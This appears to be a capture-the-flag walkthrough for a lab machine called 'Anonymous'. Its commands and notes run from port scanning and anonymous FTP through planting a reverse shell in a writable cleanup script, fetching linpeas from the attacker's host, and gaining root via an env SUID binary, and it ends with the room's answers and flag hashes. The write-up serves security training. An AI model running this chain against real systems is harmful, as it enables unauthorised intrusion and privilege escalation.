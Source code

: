 # Anonymous - Medium

```shell
rustscan -a 10.10.39.105 --range 0-65535 --ulimit 5000 -- -sV

ftp 10.10.39.105
#anonymous login
#get all 3 files from /scripts directory

smbclient -L //10.10.39.105

smbclient //10.10.39.105/pics
#get both image files

#ftp with GUI
#to edit clean.sh
gftp 10.10.39.105
#edit clean.sh & add reverse-shell one-liner

#setup listener
nc -nvlp 5555

#after uploading edited clean.sh
#we get shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
#upgrade shell

cat user.txt

#setup server on attacker machine
python3 -m http.server

#and transfer linpeas.sh to shell
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

find / -perm -u=s -type f 2>/dev/null

#exploit for env SUID from GTFObins
/usr/bin/env /bin/sh -p
#root shell

cat /root/root.txt
```

```markdown
Open ports & services:

  * 21 - ftp - vsftpd 2.0.8 or later
  * 22 - ssh - OpenSSH 7.6p1
  * 139 - netbios-ssn - Samba smbd
  * 445 - netbios-ssn - Samba smbd

As we do not have any webserver here, we can login to FTP; it allows anonymous login.

We can transfer all 3 files from /scripts in ftp.

There is a script called clean.sh which cleans temporary files and logs the action.

Now, to check the SMB shares, we can use smbclient on the machine.

Enumerating SMB, we can check the 'pics' share for interesting files; we have two image files.

Going back to the ftp share, we can see that we can edit clean.sh

We do so by adding a reverse-shell one-liner, and setting up a listener on our machine.

After uploading the edited clean.sh script with the help of gftp (ftp with GUI), we get a shell.

After reading user.txt, we can use linpeas.sh for checking privesc vectors.

linpeas.sh shows the groups sudo and lxd as privesc vectors; it also shows that /usr/bin/env has SUID bit set.

After confirming that /usr/bin/env has SUID bit set, we can follow exploit given on GTFObins.

This gives us root access.
```

1. Enumerate the machine. How many ports are open? - 4

2. What service is running on port 21? - FTP

3. What service is running on ports 139 and 445? - SMB

4. There's a share on the user's computer. What's it called? - pics

5. user.txt - 90d6f992585815ff991e68748c414740

6. root.txt - 4d930091c31a622a7ed10f27999af363
